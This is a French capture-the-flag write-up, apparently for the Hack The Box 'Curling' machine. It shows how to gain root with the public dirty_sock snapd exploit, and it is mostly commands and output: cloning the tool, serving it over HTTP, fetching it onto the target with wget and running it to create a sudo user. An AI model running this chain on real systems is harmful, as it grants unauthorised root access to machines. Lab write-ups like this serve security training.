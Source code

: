 # Privesc Curling

Bonjour à tous,

J'ai découvert un moyen d'être root sur une machine Curling, à travers une technique simple, efficace et rapide.
Il est possible d'obtenir les permissions root via le programme dirty_sock; une vulnérabilité très récente, présente sur les machines Ubuntu.

Voici les explications pour le root sur Curling. C'est très simple !

Dirty Sock
----

Vous devez simplement installer l'outil dirty_sock avec git, ensuite transférez le script sur la machine ciblée, et éxecutez le script.

    root@Computer:~/htb/writeup/Curling# git clone https://github.com/initstring/dirty_sock.git
    Clonage dans 'dirty_sock'...
    remote: Enumerating objects: 47, done.
    remote: Counting objects: 100% (47/47), done.
    remote: Compressing objects: 100% (19/19), done.
    remote: Total 47 (delta 26), reused 47 (delta 26), pack-reused 0
    Dépaquetage des objets: 100% (47/47), fait.
    Vérification de la connectivité... fait.

Après avoir installé et cloné sur votre machine physique, il suffit de transférer le fichier python sur la machine ciblée, et éxecuter le script. Pour les transfert de fichier, je vous conseille SimpleHTTPServer.

    root@Computer:~/htb/writeup/Curling# python -m SimpleHTTPServer 9001
    Serving HTTP on 0.0.0.0 port 9001 ...
    
Exécutez ça sur votre machine; il faut être impérativement présent dans le dossier dirty_sock.
Une fois la commande tapée, il vous suffit d'utiliser wget sur la machine ciblée, et de télécharger les deux scripts.

    floris@curling:/tmp$ wget http://10.10.15.173:9001/dirty_sockv1.py -O dirty_sockv1.py
    [..SNIP...]
    Saving to: ‘dirty_sockv1.py’

    dirty_sockv1.py                          100%[==================================================================================>]   5.37K  --.-KB/s    in 0.001s  

    2019-03-30 20:24:21 (10.1 MB/s) - ‘dirty_sockv1.py’ saved [5501/5501]

    floris@curling:/tmp$ wget http://10.10.15.173:9001/dirty_sockv2.py -O dirty_sockv2.py
    [...SNIP...]
    Saving to: ‘dirty_sockv2.py’

    dirty_sockv2.py                          100%[==================================================================================>]   8.49K  --.-KB/s    in 0s      

    2019-03-30 20:24:39 (109 MB/s) - ‘dirty_sockv2.py’ saved [8696/8696]

    floris@curling:/tmp$
    
Le résultat sur votre machine physique, si nous regardons bien, a transférer le fichier correctement, sans aucune erreur.

    10.10.10.150 - - [30/Mar/2019 21:24:21] "GET /dirty_sockv1.py HTTP/1.1" 200 -
    10.10.10.150 - - [30/Mar/2019 21:24:39] "GET /dirty_sockv2.py HTTP/1.1" 200 -
    
Ensuite, vous devez simplement exécuter l'outil dirty_sock2.py, et attendre que le programme crée un utilisateur dirty_sock et vous connecter avec la commande su.
    

    floris@curling:/tmp$ python3 dirty_sockv2.py 

          ___  _ ____ ___ _   _     ____ ____ ____ _  _ 
          |  \ | |__/  |   \_/      [__  |  | |    |_/  
          |__/ | |  \  |    |   ___ ___] |__| |___ | \_ 
                           (version 2)

    //=========[]==========================================\\
    || R&D     || initstring (@init_string)                ||
    || Source  || https://github.com/initstring/dirty_sock ||
    || Details || https://initblog.com/2019/dirty-sock     ||
    \\=========[]==========================================//


    [+] Slipped dirty sock on random socket file: /tmp/zkvlivrbmj;uid=0;
    [+] Binding to socket file...
    [+] Connecting to snapd API...
    [+] Deleting trojan snap (and sleeping 5 seconds)...
    [+] Installing the trojan snap (and sleeping 8 seconds)...
    [+] Deleting trojan snap (and sleeping 5 seconds)...



    ********************
    Success! You can now `su` to the following account and use sudo:
       username: dirty_sock
       password: dirty_sock
    ********************

Tapez la commande sudo su pour vous connecter en tant qu'utilisateur (dirty sock).

    floris@curling:/tmp$ su - dirty_sock
    Password: 
    dirty_sock@curling:~$
    
Une fois que vous êtes connecté en tant que dirty_sock, vous devez taper la commande sudo su, et mettre le mot de pass utilisateur pour vous connecter en tant que root, ainsi obtenir un accès root sur la machine.

    root@curling:/home/dirty_sock# sudo su
    [sudo] password for dirty_sock: 
    root@curling:/home/dirty_sock#
    
Voilà, nous sommes root !

[![forthebadge made-with-python](https://media1.giphy.com/media/4PSEQpvV5wUpnmpP1l/giphy.gif?cid=790b76115c9fd2056341686e77c521a2)]
